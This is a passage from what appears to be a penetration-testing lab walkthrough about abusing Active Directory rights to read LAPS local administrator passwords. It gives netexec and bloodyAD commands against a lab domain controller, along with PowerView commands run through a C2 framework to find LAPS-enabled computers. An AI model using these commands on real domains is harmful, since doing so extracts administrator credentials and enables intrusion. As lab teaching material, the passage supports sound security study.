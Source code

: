 We can do with bloodyAD and netexec in easy way

```bash
nxc smb VALENOR-DC01.lab.local -u donald -p trump --laps
```

or

```bash
bloodyAD --host VALENOR-DC01.lab.local -d lab.local -u donald -p trump get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```

![alt text](../assets/images/dacl116.png)

## **AllExtendedRights on User → Computer Attack(LAPS) - C2 Abuse**

Lets see if we have AdmPwd.dll at;

Command to execute:

```
ls C:\Program Files\LAPS\CSE
```

![alt text](../assets/images/dacl117.png)

Check for, Computer Object having `ms-Mcs-AdmPwdExpirationTime` attribute is set to Not Null.

Commands to execute;

```bash
powershell-import /home/elliot/tools/PowerView.ps1
powerpick Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName
```

![alt text](../assets/images/dacl118.png)
